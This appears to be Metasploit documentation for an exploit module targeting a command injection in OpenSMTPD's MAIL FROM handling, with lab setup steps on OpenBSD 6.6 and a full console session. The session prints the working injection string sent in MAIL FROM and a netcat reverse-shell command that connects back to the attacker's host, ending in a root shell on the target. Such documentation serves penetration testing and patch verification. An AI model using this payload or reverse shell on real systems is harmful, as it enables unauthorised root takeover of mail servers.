 ## Vulnerable Application

### Description

This module exploits a command injection in the `MAIL FROM` field during
SMTP interaction with OpenSMTPD to execute code as the root user.

### Setup

1. Download [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system, noting the domain name (defaults to
   `foo.my.domain`)
3. Configure the following settings in `/etc/mail/smtpd.conf`:
  * `listen on all`
  * `match from any for domain "foo.my.domain" action "local_mail"`
4. Execute `/etc/rc.d/smtpd restart` to restart OpenSMTPD
5. Execute `ifconfig` and look for an appropriate target IP

### Targets

```
Id  Name
--  ----
0   OpenSMTPD >= commit a8e222352f
```

## Verification Steps

Follow the steps in the [Setup](#setup) and [Scenarios](#scenarios)
sections.

## Options

**RCPT_TO**

Set this to a valid mail recipient. The default is `root`.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf5 > use exploit/unix/smtp/opensmtpd_mail_from_rce
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > show missing

Module options (exploit/unix/smtp/opensmtpd_mail_from_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set rhosts 192.168.56.133
rhosts => 192.168.56.133
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.133:25 - Connecting to OpenSMTPD
[*] 192.168.56.133:25 - Saying hello and sending exploit
[*] 192.168.56.133:25 - Expecting: /220.*OpenSMTPD/
[+] 192.168.56.133:25 - Received: 220 foo.my.domain ESMTP OpenSMTPD
[*] 192.168.56.133:25 - Sending: HELO oKFMWnrTJZjTbzkGfVMsyDy7pO35ze
[*] 192.168.56.133:25 - Expecting: /250.*pleased to meet you/
[+] 192.168.56.133:25 - Received:
250 foo.my.domain Hello oKFMWnrTJZjTbzkGfVMsyDy7pO35ze [192.168.56.1], pleased to meet you
[*] 192.168.56.133:25 - Sending: MAIL FROM:<;for J in V e E n U T w v A K M a 0 s x;do read;done;sh;exit 0;>
[*] 192.168.56.133:25 - Expecting: /250.*Ok/
[+] 192.168.56.133:25 - Received:
250 2.0.0 Ok
[*] 192.168.56.133:25 - Sending: RCPT TO:<root>
[*] 192.168.56.133:25 - Expecting: /250.*Recipient ok/
[+] 192.168.56.133:25 - Received:
250 2.1.5 Destination address valid: Recipient ok
[*] 192.168.56.133:25 - Sending: DATA
[*] 192.168.56.133:25 - Expecting: /354 Enter mail.*itself/
[+] 192.168.56.133:25 - Received:
354 Enter mail, end with "." on a line by itself
[*] 192.168.56.133:25 - Sending:
#
#
#
#
#
#
#
#
#
#
#
#
#
#
#
mkfifo /tmp/eizzy; nc 192.168.56.1 4444 0</tmp/eizzy | /bin/sh >/tmp/eizzy 2>&1; rm /tmp/eizzy
[*] 192.168.56.133:25 - Sending: .
[*] 192.168.56.133:25 - Expecting: /250.*Message accepted for delivery/
[+] 192.168.56.133:25 - Received:
250 2.0.0 ccd8e419 Message accepted for delivery
[*] 192.168.56.133:25 - Sending: QUIT
[*] 192.168.56.133:25 - Expecting: /221.*Bye/
[+] 192.168.56.133:25 - Received:
221 2.0.0 Bye
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.133:16126) at 2020-02-05 16:16:59 -0600

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.my.domain 6.6 GENERIC#353 amd64
```
